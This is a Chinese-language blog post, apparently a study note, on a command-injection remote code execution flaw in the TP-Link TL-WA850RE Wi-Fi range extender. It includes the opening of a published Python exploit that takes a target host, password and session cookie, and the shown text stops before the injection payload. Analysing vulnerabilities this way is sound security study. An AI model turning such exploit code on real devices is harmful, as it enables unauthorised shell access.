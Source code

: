 ```yaml
---
layout:     post
title:      TP-Link TL-WA850RE - Remote Command Execution
subtitle:   TL-WA850RE，Remote Command Execution
date:       2018-07-05
author:     DC
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:

    - TP-Link
    - RCE
    - VUL
---
```

# TP-Link TL-WA850RE - Remote Command Execution

简析：该路由器为![1411571179-2008228670_m.jpg](https://github.com/zhongshendoushuizhao/project/blob/master/vul_learn/picture/1411571179-2008228670_m.jpg?raw=true) 

主要功能是做无线wifi的中继器，产品测评地址如下：https://www.xfastest.com/thread-143356-1-1.html

，操作管理 和常规路由器相似 可已通过webapp 访问，此poc的攻击主要基于命令注入来获取shell，在去分析漏洞原理方面先去学习搭建 [firmware  analysis  toolkit](https://github.com/attify/firmware-analysis-toolkit) ，POC相对比较简单，先做代码层必要分析，后面提供其他分析



```python
#!/usr/bin/env python

# Exploit Title: TP-Link Technologies TL-WA850RE Wi-Fi Range Extender - Command Execution
# Date: 19/06/2018
# Exploit Author: yoresongo - Advisability S.A.S Colombia (www.advisability.co)
# Vendor Homepage: https://www.tp-link.com/
# Firmware Link: https://www.tp-link.com/en/download/TL-WA850RE.html   固件地址
# Tested on: Firmware Version TL-WA850RE_V5_180228
# Contact: yoresongo [at] advisability.co

import argparse #命令行处理
import requests #HTTP 请求 为应用层漏洞
import hashlib  #提供hash计算库
import telnetlib #内置支持telnet远程模块

parser = argparse.ArgumentParser(
    description="Exploits TP-LINK WA850RE Command injection"
)

#参数为  host  password  -C cookit(have default)

parser.add_argument("host", help="Host to attack.", type=str)
parser.add_argument("password", help="Extender's Password", type=str)
parser.add_argument(
    "-C", "--cookie", help="Cookie id value.", type=str, default="1301a8c000c4c505"
)
args = parser.parse_args()

HOST = args.host
PASSWORD = args.password
COOKIE = args.cookie

#拼接 cookites  数据为： Cookie: COOKIE=1301a8c000c4c505; gsScrollPos-8016=0
cookies = {"gsScrollPos-8016": "0", "COOKIE": COOKIE}


```